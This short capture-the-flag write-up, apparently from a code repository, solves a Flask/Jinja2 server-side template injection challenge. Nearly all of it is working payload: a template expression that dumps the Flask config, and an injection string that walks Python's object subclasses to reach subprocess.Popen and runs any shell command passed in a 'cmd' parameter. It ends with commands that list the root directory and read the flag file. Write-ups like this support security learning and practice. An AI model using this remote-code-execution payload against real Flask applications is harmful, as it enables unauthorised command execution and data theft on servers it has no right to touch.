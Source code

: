 ### Show flask config
```
{{ config }}
```

### Injection script
```
{{request.__class__.__mro__[-1].__subclasses__()[407]([request.args.cmd], shell=True, stdout=-1).communicate()}}
```
Make sure:
```
request.__class__.__mro__[-1] = <class 'object'>
request.__class__.__mro__[-1].__subclasses__()[407] = <class 'subprocess.Popen'>
```

To find flag filename: `&cmd=ls /`
Get the flag using: `&cmd=cat /%FLAG_FILENAME%`